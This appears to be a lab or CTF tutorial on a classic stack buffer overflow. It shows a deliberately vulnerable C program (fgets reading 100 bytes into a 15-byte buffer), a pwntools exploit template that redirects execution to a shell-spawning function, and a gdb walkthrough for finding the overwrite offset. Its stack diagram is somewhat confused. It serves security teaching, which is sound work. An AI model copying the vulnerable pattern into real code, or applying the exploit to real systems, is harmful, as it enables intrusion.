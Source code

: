 * Code:
```c
#include <stdio.h>
#include <stdlib.h>

void getName(){
	char name[15] = {0}; // !! Our buffer is only 15 characters... but: !!


	printf("What's your name? ");
	fgets(name, 100, stdin); // !! We are reading 100 characters despite only being able to store 15 characters !!
	printf("Cool name %s!", name);

}


void main(){
	getName();
}

void openShell(){
	system("/bin/sh");
}

```
* Decompiling in Ghidra, we get the following code for all the user defined functions:
```c
void getName(void){
  undefined8 local_17;
  undefined4 local_f;
  undefined2 local_b;
  undefined local_9;
  
  local_17 = 0;
  local_f = 0;
  local_b = 0;
  local_9 = 0;
  printf("What\'s your name? ");
  fgets((char *)&local_17,100,stdin);
  printf("Cool name %s!",&local_17);
  return;
}

void main(void){
  getName();
  return;
}


void openShell(void){
  system("/bin/sh");
  return;
}
```
* Take note that the `getName` function is calling `fgets` and taking in 100 characters, while our buffer is only of size 15.
	* Technically, this limits how much we can overwrite the stack (while `gets` would let us write as much as we want, but 100 bytes should be enough for what we want.

* Stack:
```
---------------------------
|   main Return Address   | ↓️  
---------------------------
|     main Saved RBP      | ↓
---------------------------
| getName Return Address  | ↓
---------------------------
|   getName Saved RBP     | ↓
---------------------------
| getName 'name' Variable | ↓
---------------------------
| openShell Return Address| ↓
---------------------------
|   openShell Saved RBP   | ↓
---------------------------
```
* Notice the stack grow downwards
	* Every stack frame always starts with the return address, then the frame pointer
	* The return address is where the computer goes at the end of the function


* First, we want to be able to make the program crash. If we can do that, we can make it crash how we want to make the program do something malicious.

# Writing the exploit
### Boilerplate exploit code
```python3
from pwn import *
p = process('./program.elf')
e = ELF('./program.elf')

offset = rbp - locationOfInput
addressToJumpTo = p64(e.symbols['openShell']) # p32 or p64 is based on if it is a 32 or 64 bit program. use `file` or `checksec` on binary to check

payload = b''
payload += b'A'*offset
payload += addressToJumpTo


p.sendline(payload)
p.interactive()
```
### Exploit process
* Preface: I highly suggest having [gef](https://gef.readthedocs.io/en/master/) installed for this. I will be using it.

1. Run `gdb buf1` to start the binary in a dynamic debugger
2. Run `disas main` to look at the main function to get the following output:
```bash
Dump of assembler code for function main:
   0x00000000004011a7 <+0>:	push   rbp
   0x00000000004011a8 <+1>:	mov    rbp,rsp
   0x00000000004011ab <+4>:	mov    eax,0x0
   0x00000000004011b0 <+9>:	call   0x401142 <getName>
   0x00000000004011b5 <+14>:	mov    eax,0x0
   0x00000000004011ba <+19>:	pop    rbp
   0x00000000004011bb <+20>:	ret    
End of assembler dump.

```
	* Here, we can see on offset <+9> from the main, there is a call to func `getName`
3. Disassemble `getName` with `disas getName` to get the following output:
```bash
Dump of assembler code for function getName:
   0x0000000000401142 <+0>:	push   rbp
   0x0000000000401143 <+1>:	mov    rbp,rsp
   0x0000000000401146 <+4>:	sub    rsp,0x10
   0x000000000040114a <+8>:	mov    QWORD PTR [rbp-0xf],0x0
   0x0000000000401152 <+16>:	mov    DWORD PTR [rbp-0x7],0x0
   0x0000000000401159 <+23>:	mov    WORD PTR [rbp-0x3],0x0
   0x000000000040115f <+29>:	mov    BYTE PTR [rbp-0x1],0x0
   0x0000000000401163 <+33>:	lea    rdi,[rip+0xe9a]        # 0x402004
   0x000000000040116a <+40>:	mov    eax,0x0
   0x000000000040116f <+45>:	call   0x401040 <printf@plt>
   0x0000000000401174 <+50>:	mov    rdx,QWORD PTR [rip+0x2ec5]        # 0x404040 <stdin@GLIBC_2.2.5>
   0x000000000040117b <+57>:	lea    rax,[rbp-0xf]
   0x000000000040117f <+61>:	mov    esi,0x64
   0x0000000000401184 <+66>:	mov    rdi,rax
   0x0000000000401187 <+69>:	call   0x401050 <fgets@plt>
   0x000000000040118c <+74>:	lea    rax,[rbp-0xf]
   0x0000000000401190 <+78>:	mov    rsi,rax
   0x0000000000401193 <+81>:	lea    rdi,[rip+0xe7d]        # 0x402017
   0x000000000040119a <+88>:	mov    eax,0x0
   0x000000000040119f <+93>:	call   0x401040 <printf@plt>
   0x00000000004011a4 <+98>:	nop
   0x00000000004011a5 <+99>:	leave  
   0x00000000004011a6 <+100>:	ret    
End of assembler dump.
```
4. Look for where we input into the buffer. We can see that it is calling `fgets` at offset <+69> from the main
5. We want to break immediately after the input to inspect the stack, so we can set a breakpoint at the offset right after the input with `b *getName + 74`
6. Run the binary in gdb with `r`
7. Input an 8-byte string. Typically we use all uppercase As, so I'm using `AAAAAAAA`
	* This should trigger our breakpoint
8. Now, we have to inspect the stack. We can first find the location of our input with `search-pattern AAAAAAAA`
	* This gives us the following:
```bash
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x405000-0x426000), permission=rw-
  0x4056b0 - 0x4056b8  →   "AAAAAAAA" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdfd1 - 0x7fffffffdfd9  →   "AAAAAAAA" 
```
	* `0x7fffffffdfd1` is the start address of the string

9. We can run `i f` to look at information on the current frame. We get the following:
```bash
Stack level 0, frame at 0x7fffffffdff0:
 rip = 0x40118c in getName; saved rip = 0x4011b5
 called by frame at 0x7fffffffe000
 Arglist at 0x7fffffffdfe0, args: 
 Locals at 0x7fffffffdfe0, Previous frame's sp is 0x7fffffffdff0
 Saved registers:
  rbp at 0x7fffffffdfe0, rip at 0x7fffffffdfe8
```
	* The rip is at `0x7fffffffdfe8`
10. We can get our offset by subtracting these: `0x7fffffffdfe8 - 0x7fffffffdfd1`, which is 23 bytes


